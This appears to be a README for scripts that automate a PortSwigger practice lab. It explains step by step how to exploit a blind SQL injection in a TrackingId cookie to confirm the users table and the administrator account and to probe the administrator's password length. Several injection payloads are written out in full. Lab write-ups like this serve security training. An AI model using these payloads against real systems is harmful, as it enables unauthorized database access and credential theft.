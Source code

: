 # Portswigger lab-11 automation scripts

## methodology
this lab has a blind SQL-injection vulnerability in the TrackingId cookie in the Cookie header

1. check the existence of blind SQL-injection by noticing that the response changed when we add a false condition as
`Cookie: TrackingId=someId' AND 1=2 --`
we will notice that the response won't have the "Welcome back" message, and as the lab description said it has users table and the target is to get the administrator password

2. check for the existance of the users table
`Cookie: TrackingId=someId' AND (SELECT 'a' FROM users LIMIT 1) = 'a' --` , we will notice that the condition is true as the response has the "welcome back" message

3. check the existence of the administrator user
`Cookie: TrackingId=someId' AND (SELECT username FROM users WHERE username = 'administrator') = 'administrator' --`
still getting the message then the administrator user exists

4. check the password length
`Cookie: TrackingId=someId' AND (SELECT 'a' FROM users WHERE LENGTH(password) > $length LIMIT 1) = 'a'  --`

5. After knowing the length of the administrator password, we should set it in the code

6. run the script for bash by `./script.sh` and for python with `python3 script.py`
